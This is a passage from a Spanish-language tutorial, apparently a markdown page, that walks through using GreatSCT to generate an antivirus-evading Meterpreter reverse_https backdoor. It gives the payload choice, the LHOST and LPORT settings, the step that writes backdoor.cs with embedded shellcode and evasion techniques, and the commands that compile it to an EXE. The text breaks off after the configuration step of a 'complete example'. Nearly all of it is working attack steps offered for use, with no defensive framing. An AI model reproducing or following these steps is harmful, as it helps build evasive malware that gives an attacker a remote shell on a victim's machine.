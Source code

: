```
1) windows/meterpreter/reverse_https
```

#### Paso 3: Especificar LHOST y LPORT

```
Enter LHOST: 192.168.1.10
Enter LPORT: 4444
```

#### Paso 4: Elegir el lenguaje para generar

Selecciona:

```
2) csharp (C#)
```

#### Paso 5: Nombre del archivo de salida

```
output_file: backdoor.cs
```

> Esto generará un archivo `backdoor.cs` con shellcode insertado y técnicas de evasión.

#### Paso 6: Compilarlo a EXE

Usa `mono` o `wine`:

```bash
xbuild backdoor.cs
# o
mcs backdoor.cs -out:backdoor.exe
```

---

### 🔥 Ejemplo completo: Payload Meterpreter evasivo

**Supongamos** que quieres generar un backdoor que se conecte de vuelta a tu máquina con `msfconsole`.

#### 1. Ejecutas GreatSCT:

```bash
./GreatSCT.py --payload
```

#### 2. Configuras:

```
Payload: windows/meterpreter/reverse_https
LHOST: 192.168.56.1
LPORT: 443
Language: C#
```
